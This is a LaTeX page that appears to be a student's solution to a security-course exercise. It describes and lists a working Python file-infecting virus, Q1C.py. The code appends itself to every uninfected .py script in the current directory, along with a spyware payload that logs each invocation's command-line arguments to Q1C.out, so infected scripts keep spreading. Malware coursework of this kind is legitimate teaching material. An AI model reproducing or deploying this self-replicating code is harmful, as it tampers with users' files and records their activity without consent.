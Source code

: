 \documentclass{article}
\begin{document}
\subsection*{Part C}
Finally, write the virus. This would be another Python script, 
Q1C.py. Q1C.py will infect every .py script in the current directory, 
e.g., x.py. By `infection’ we mean that when the modified script “x.py” 
would be run, it would retain their original functionality (of original x.py), 
but also have two additional functionalities. The first additional functionality 
(the payload) is a spyware functionality similar to what Q1B did, i.e., whenever 
the modified script “x.py” is run, it will append the entire command line used to 
invoke it to the end of a file called Q1C.out. The second additional functionality 
is an infection functionality, namely, the modified script will also have the same 
functionality as Q1C.py, modifying all .py scripts in the directory in which it runs, 
by adding the same spyware functionality and infection functionality. Q1C 
(and the modified scripts) should not modify scripts which were already 
been `infected’ by this `virus’. 
\\\\
Like the previous part, we can get all the files in the directory and put them
in a list, get all the files that end with ".py", and then check every file
in the list to see if it contains the virus by checking if the file contains
the string "Q1C.out". The change for this part is that we also write the 
whole file of the script to the target script so it copies the whole script
to the target script, thereby replecating and infecting it.

\begin{lstlisting}[language=Python]
import os
import sys
if __name__ == '__main__':
    directory = os.getcwd()
    files = os.listdir(directory)
    py_files = [file for file in files if file.endswith(".py")]
    curr = open(directory + "/Q1C.py", "r")
    currlines = curr.read()
    curr.close()
    for file in py_files:
        with open(file, "r") as f:
            lines = f.readlines()
            for line in lines:
                if "Q1C.out" in line:
                    break
            else:
                with open(file, "a") as f:
                    f.write("\nimport sys\n")
                    f.write("with open('Q1C.out', 'a') as f:\n")
                    f.write("   f.write('\\n')\n")
                    f.write("   f.write(str(sys.argv))\n")
                    f.write(currlines)
\end{lstlisting}
\end{document}
